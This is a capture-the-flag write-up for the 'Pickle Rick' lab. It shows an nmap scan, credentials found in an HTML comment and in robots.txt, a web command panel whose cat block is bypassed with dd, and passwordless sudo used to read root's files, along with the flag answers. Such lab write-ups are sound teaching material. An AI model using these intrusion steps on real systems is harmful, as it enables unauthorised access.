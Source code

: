 # Pickle Rick

A Rick and Morty CTF. Help turn Rick back into a human!

## nmap -p- [ip]

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-26 01:00 UTC
Nmap scan report for ip-10-10-160-245.eu-west-1.compute.internal (10.10.160.245)
Host is up (0.0045s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:A2:5E:0E:7C:36 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 5.95 seconds
```

## website at :80

Contains a short bit of text outlining the scenario. The html source contains:

```
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Nikto reveals its running apache and that /login.php exists. dirb additionally showed robots.txt and a browsable assets folder. The latter showed nothing of note, but the former contained the text: `Wubbalubbadubdub`. This worked as a password on the login form, providing access to portal.php. I didn't guess this myself unfortunately: got distracted running hydra, which wasn't working. Stupid CTF logic.

## portal cmd interface

Portal.php presented a page with a number of tabs, all of which said access denied except for the REAL rick. The only tab accessible, the default, allowed me to execute commands in a shell-like way.

`ls -lA` revealed:

```
total 32
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

I tried `cat`, but got `Command disabled to make it hard for future PICKLEEEE RICCCKKKK.`

`pwd` revealed the path was `/var/www/html`, `whoami` revealed I was acting as `www-data` and `ls -lA /var/www` revealed the web dir was owned by root, so I could not write any files into it. No simple web shell for me.

However, the text files in the above listing I could obviously just browse to via the webserver. `http://[ip]/Sup3rS3cretPickl3Ingred.txt` revealed the first ingredient: `mr. meeseek hair`

`clue.txt` contained: `Look around the file system for the other ingredient.`

## exploring and using dd

Next step was browsing about, and the first place I looked was the home dirs. There were two, `rick` and `ubuntu`. The former containing an ascii file `second ingredients`, confirmed via the `file` command. I needed to read it.

`cat` was blocked as already discussed. So was `head` and `tail`. However `dd` was not:

`dd count=200 bs=1 if=/home/rick/second\ ingredients` revealed `1 jerry tear`

## sudo and finish

I tried doing a search for suid bits, but it didn't seem to work. On a whim I ran `sudo -l` and to my surprise found: 

```
Matching Defaults entries for www-data on ip-10-10-17-154.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-17-154.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Easy. `sudo ls -lA /root` revealed:

```
total 20
-rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwx------ 2 root root 4096 Feb 10  2019 .ssh
-rw-r--r-- 1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x 3 root root 4096 Feb 10  2019 snap
```

And then `sudo dd count=200 bs=1 if=/root/3rd.txt` revealed `3rd ingredients: fleeb juice`

## Summary

I wish I had guessed on my own the password from robots.txt, but aside from that this was all trivial.

